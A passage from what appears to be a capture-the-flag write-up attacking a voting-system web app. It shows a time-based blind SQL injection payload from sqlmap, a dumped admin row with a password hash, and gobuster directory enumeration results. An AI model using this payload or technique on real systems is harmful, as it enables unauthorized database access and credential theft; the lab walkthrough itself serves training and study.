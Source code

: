 
   Type\: time-based blind                                                          

   Title\: MySQL \>= 5.0.12 AND time-based blind (query SLEEP)

   Payload\: voter=a' AND (SELECT 5793 FROM (SELECT(SLEEP(5)))bSGe) AND 'YMSl'='YMSl&password=a&login=

---   

Database\: votesystem                                                                                                                                                        

Table\: admin                                                                                                                                                                

[1 entry]                                                                                                                                                                   

+----+--------+----------+--------------------------------------------------------------+----------+-----------+------------+                                               

| id | photo  | lastname | password                                                     | username | firstname | created_on |                                               

+----+--------+----------+--------------------------------------------------------------+----------+-----------+------------+                                               

| 1  | nc.exe | Devierte | $2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC | admin    | Neovic    | 2018-04-02 |                                               

+----+--------+----------+--------------------------------------------------------------+----------+-----------+------------+
{% endhighlight %}

Using time-based bline SQLi, sqlmap successfully retrieved the contents of the SQL server with the credentials of admin. However, admin’s password is hashed using blowfish encryption which takes a long time to decrypt (and as it turns out admin’s password is not in rockyou).

#### Admin Page

Along with enumerating the SQL server, the directories of the web service were also enumerated using gobuster[[1]](#ftnt1)\:

{% highlight bash %}
/admin (Status\: 301)

/aux.php (Status\: 403)

/aux (Status\: 403)

/con.php (Status\: 403)

/con (Status\: 403)

/dist (Status\: 301)

/home.php (Status\: 302)

/images (Status\: 301)

/includes (Status\: 301)

/index.php (Status\: 200)

/licenses (Status\: 403)

/login.php (Status\: 302)

/logout.php (Status\: 302)

/phpmyadmin (Status\: 403)

/plugins (Status\: 301)

/preview.php (Status\: 302)

/prn.php (Status\: 403)

/prn (Status\: 403)

/server-status (Status\: 403)
